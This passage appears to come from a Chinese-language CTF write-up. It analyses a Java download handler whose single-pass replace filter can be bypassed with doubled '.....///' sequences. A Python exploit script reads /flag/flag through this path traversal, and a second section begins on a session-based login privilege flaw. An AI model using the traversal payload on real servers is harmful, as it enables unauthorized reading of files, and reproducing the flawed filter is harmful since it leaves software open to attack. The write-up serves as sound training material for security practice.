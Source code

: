 ```java
            byte[] b = new byte[2048];
            int len;
            while ((len = input.read(b)) != -1) {
                out.write(b, 0, len);
            }
            res.setHeader("Content-Length", String.valueOf(input.getChannel().size()));
            input.close();
        } catch (Exception ex) {
        }
        return;
    }
}
```

这里的filename参数只做了一次replace，可以双重复写绕过，从而进行任意文件下载。

EXP如下：

```python
def get_flag(host):
    tmp = random_string(10)
    register(host,tmp)
    login(host,tmp)
    paramsGet = {"file":".....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///flag/flag"}
    headers = {"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:55.0) Gecko/20100101 Firefox/55.0","Connection":"close","Accept-Language":"zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3","DNT":"1"}
    response = session.get(host+"/download/files", params=paramsGet, headers=headers)
    print("Flag: %s" % response.content)
    return response.content
```



### 登陆越权

代码如下：

```java

    @RequestMapping("/loginHtml.html")
    public String loginHtml(HttpSession session,@ModelAttribute("message") String message) {
        System.out.println("-->user/loginHtml.html");

        Integer code = (Integer) session.getAttribute("first");
        if(code!=null){
            if (code == User.UNSUBMITTED) {
                return "redirect:/profile/profileAdd.html";
            } else if (code == User.ADMIN) {
                return "redirect:/profile/export";
            } else {
                return "redirect:/profile/my";
            }
        }else {
            session.setAttribute("message", message);
            return "login";
        }
    }
```
